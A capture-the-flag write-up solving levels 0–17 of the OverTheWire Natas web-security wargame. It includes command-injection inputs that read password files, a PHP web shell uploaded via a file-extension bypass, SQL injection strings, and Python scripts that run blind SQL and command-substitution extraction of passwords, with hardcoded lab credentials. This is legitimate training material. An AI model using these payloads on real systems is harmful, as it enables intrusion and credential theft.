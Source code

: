 #### Writeup on https://overthewire.org/wargames/natas/

#### Level 0

The password is available in website source code.

#### Level 0 → Level 1

Can visit website source using `Ctrl + U`

#### Level 1 → Level 2

Browse to `/files/users.txt`

#### Level 2 → Level 3

Comment on website source says "Not even Google will find it this time", hence we go to `/robots.txt` from where we get to `/s3cr3t/users.txt`

#### Level 3 → Level 4

Need to modify "Referer" header to "http://natas5.natas.labs.overthewire.org/" in order to make the server think that we are coming from that domain.

#### Level 4 → Level 5

Set "loggedin" cookie's value to "1" using a cookie editing browser extension.

#### Level 5 → Level 6

Source code tells us that the password is located at "includes/secret.inc". Hence we browse to it to find a blank page but then find the secret in it's source. Submitting that on the form gives the password.

#### Level 6 → Level 7

IDOR available, i.e. any text passed to the `page` param is directly `cat`, hence utilizing hint in the website source we visit `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`.

#### Level 7 → Level 8

Reverse engineering the `encodeSecret()` function gets us the required password:

- convert the value of the `encodedSecret` variable to binary format using [hex2bin()](https://onlinephp.io/hex2bin)
- reverse the obtained output using the `rev` command and `base64` decode it: `echo ==QcCtmMml1ViV3b | rev | base64 -d`
- enter the obtained string in the form to get the password.

#### Level 8 → Level 9

Source code tells us that user input is being directly substituted in the command `grep -i $key dictionary.txt` hence giving [RCE](https://en.wikipedia.org/wiki/Remote_code_execution). Semicolons can be used to end have multiple commands on a single line, thus entering `; cat /etc/natas_webpass/natas10;` in the form gives us the password.

#### Level 9 → Level 10

The `preg_match()` function is checking for any character matching the regex `[;|&]` and hence we can't use semicolons anymore. We know that multiple files can be passed to `grep`, thus we pass the `/etc/natas_webpass/natas10` file to `grep` along with the "match everything" regex `.*` with the `-e` password: `-e ".*" /etc/natas_webpass/natas10`.

#### Level 10 → Level 11

The source code shows us an array with a `showpassword` parameter set to `no`. This array is JSON encoded, encrypted (with XOR), base64 encoded and then set as the `data` cookie. In order to make the backend PHP display the password, `showpassword` needs to be set to `yes`. Hence we need to forge such a cookie but for doing so we need to know the encryption key.

XORing the value stored in cookie with a JSON encoded base64 encoded array gives us the key. Using this key we encrypt the forged array resulting in a forged cookie. Editing the cookie in the browser to this cookie gets us the password.

#### Level 11 → Level 12

This level allows the client to upload an image file to the server. The uploaded file's name is set client-side, as a hidden `input` element. The extension in this client-side value can be modified to store any kind of file on the server.

Uploading a PHP script containing the following code: `<?php echo shell_exec($_GET['c'].' 2>&1'); ?>` gets us RCE on the server. This is because PHP blindly executes any PHP code it comes across.

- The `shell_exec` function can execute the provided argument as a shell command.
- `$_GET['c']` returns the value of the parameter `c` from the request.
- "." is the concatenation operator which converts both of the given operands to string type before combining them
- `' 2>&1'` ensures that terminal errors are also passed on to the `shell_exec` function i.e. it redirects `STDERR (&2)` to `STDOUT (&1)`

After uploading the script we get a URL to access it upon visiting which we see an error. This is because we haven't passed any parameters in the request. On sending another request with the parameter `c` set to `URL?c=cat /etc/natas_webpass/natas13` we get the password.

#### Level 12 → Level 13

This level is similar to the previous level except that here the [`exif_imagetype`](https://www.php.net/manual/en/function.exif-imagetype.php) function is used for checking that the uploaded file is indeed an image. If it's not an error is displayed. By going through the function's manual we realize that only the magic text of the file i.e. the first few characters which are an indicator of the file format are the only one's that are checked. Hence as referenced at https://stackoverflow.com/a/66094894 we can add some magic characters to the beginning of our PHP script using Python after which we will be able to upload it and get the password.

#### Level 13 → Level 14

SQL Injection: `natas15" or 1=1;-- -` as username with an empty password.

#### Level 14 → Level 15

There is a single username text input which can be used to confirm if a certain user exists or not. Trying `natas16` as the username gets us the reply that the user exists.

As there is no way to test the password, we need to use Blind SQL Injection to get the password.. We start by finding the characters that exist in the password using SQL `LIKE` passing the wildcard `%<character>%` where `%` refers to any number of characters. From previous levels, we know that the password is 32 characters long. Hence in the next step, we obtain the password character by character, except that in this case the wildcard is placed only at the trailing end,

`BINARY` makes the query case-sensitive. `#` is a comment style specific to MySQL servers.

```
import requests

from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'), data = Data)
    if 'exists' in r.text :
        filtered += char
print(filtered)

passwd = ''
for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        r = requests.post('http://natas15.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'), data = Data)
        if 'exists' in r.text :
            passwd += char
            print(passwd)
```

#### Level 15 → Level 16

This level is similar to Level 10 wherein we could search a dictionary by providing search terms via a textbox. The difference here is that the user input is surrounded with quotes hence the previous method can't be used. Instead we use command substitution and an approach similar to the previous Level 15 to obtain the password.

If a certain character is present in the password, the inner `grep` will return text causing the outer `grep` to fail: the word "kitten" won't be found (as there would be additional text preceding it) and hence it won't be in the response. This is our clue to include that character in the `filtered` variable. After this we fix the password obtained so far at the beginning of the search term for the inner `grep`, followed by a character from the `filtered` variable. Eventually we get a 32 character string which is the required password.

```
import requests
from requests.auth import HTTPBasicAuth

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
filtered = ''

for char in chars:
    r = requests.post('http://natas16.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V'),
        data = {'submit' : 'Search', 'needle':'$(grep {} /etc/natas_webpass/natas17)kitten'.format(char)})
    print(r.text)
    if 'kitten' not in r.text:
        filtered += char
print(filtered)

passwd = ''
for i in range(0,32):
    for char in filtered:
        r = requests.post('http://natas16.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V'),
            data = {'submit' : 'Search', 'needle':'$(grep ^{} /etc/natas_webpass/natas17)kitten'.format(passwd + char)})
        if 'kitten' not in r.text:
            passwd += char
            print(passwd)
```

#### Level 16 → Level 17

This level is similar to the previous level but there is no feedback as to whether the user exists or not. Hence we need to use Time-Based Blind SQLi to derive the password.

#### End of writeup
